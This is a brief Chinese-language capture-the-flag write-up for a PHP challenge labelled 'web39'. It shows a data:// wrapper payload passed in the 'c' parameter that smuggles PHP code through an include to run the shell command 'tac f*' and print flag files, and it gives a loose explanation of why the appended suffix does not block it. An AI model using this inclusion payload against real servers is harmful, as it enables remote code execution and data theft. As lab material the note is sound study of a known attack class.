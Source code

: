 # web39
![](vx_images/506436792982580.png)  
注意到include的时候添加了后缀,首先想到能不能截断.
然而发现
```
?c=data://text/plain,<?=system("tac f*");?>
```
还是可以过,原来include只会处理<>内部的内容
